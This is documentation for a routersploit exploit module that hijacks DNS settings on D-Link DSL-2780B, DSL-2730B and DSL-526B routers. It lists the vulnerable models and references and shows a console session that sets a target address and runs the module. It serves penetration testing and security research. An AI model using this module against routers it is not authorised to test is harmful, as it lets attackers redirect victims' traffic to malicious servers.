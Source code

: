 # D-Link DSL-2780B & DSL-2730B & DSL-526B DNS Change

## Description
Module exploits D-Link DSL-2780B, DSL-2730B and DSL-526B dns change vulnerability.If the target is vulnerable it is possible to change dns settings.

## Authors
* Todor Donev <todor.doven[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/37237/](https://www.exploit-db.com/exploits/37237/)
* [https://github.com/jh00nbr/Routerhunter-2.0](https://github.com/jh00nbr/Routerhunter-2.0)

## Vulnerable devices
* D-Link DSL-2780B
* D-Link DSL-2730B
* D-Link DSL-526B

## Usage
```
rsf > use exploits/dlink/dsl_2730b_2780b_526b_dns_change
rsf (D-Link DSL-2780B & DSL-2730B & DSL-526B DNS Change) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name     Current settings     Description
   ----     ----------------     -----------
   dns2     8.8.4.4              Seconary DNS Server
   dns1     8.8.8.8              Primary DNS Server


rsf (D-Link DSL-2780B & DSL-2730B & DSL-526B DNS Change) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DSL-2780B & DSL-2730B & DSL-526B DNS Change) > run
[*] Running module...
```
